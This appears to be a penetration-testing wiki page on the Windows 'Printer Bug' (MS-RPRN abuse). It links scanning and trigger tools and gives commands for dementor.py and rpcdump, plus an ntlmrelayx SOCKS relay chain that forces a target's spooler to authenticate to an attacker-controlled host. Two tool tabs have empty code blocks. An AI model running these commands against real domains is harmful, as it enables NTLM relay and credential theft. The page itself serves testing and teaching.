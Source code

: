 # Printer Bug \(MS-RPRN abuse\)

MS-RPRN is Microsoft’s Print System Remote Protocol. It defines the communication of print job processing and print system management between a print client and a print server. An attacker controlling a domain user/computer can, with an RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing. This flaw is a "won't fix" and enabled by default on all Windows environments.

Remotely checking if the spooler is available can be done with [SpoolerScanner](https://github.com/vletoux/SpoolerScanner) \(Powershell\) or with [rpcdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/rpcdump.py) \(Python\).

The spooler service can be triggered with [printerbug](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) \(Python\), [dementor](https://gist.github.com/3xocyte/cfaf8a34f76569a8251bde65fe69dccc) \(Python\), the adapted original .NET code \([here](https://github.com/leechristensen/SpoolSample)\).

{% tabs %}
{% tab title="dementor" %}
Trigger the spooler service

```bash
dementor.py -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD $ATTACKER_IP $TARGET
```
{% endtab %}

{% tab title="printerbug" %}
Trigger the spooler service

```bash

```
{% endtab %}

{% tab title="rpcdump" %}
Check if the spooler service is available

```bash
rpcdump.py $TARGET | grep -A 6 MS-RPRN
```
{% endtab %}

{% tab title="SpoolerScanner" %}
Check if the spooler service is available

```text

```
{% endtab %}
{% endtabs %}

{% hint style="info" %}
In the situation where the tester doesn't have any credentials, it should still be possible to relay an NTLM authentication and trigger the spooler service of a target via a SOCKS proxy
{% endhint %}

```bash
ntlmrelayx.py -t smb://$TARGET -socks
proxychains dementor.py -d $DOMAIN -u $DOMAIN_USER $ATTACKER_IP $TARGET
```

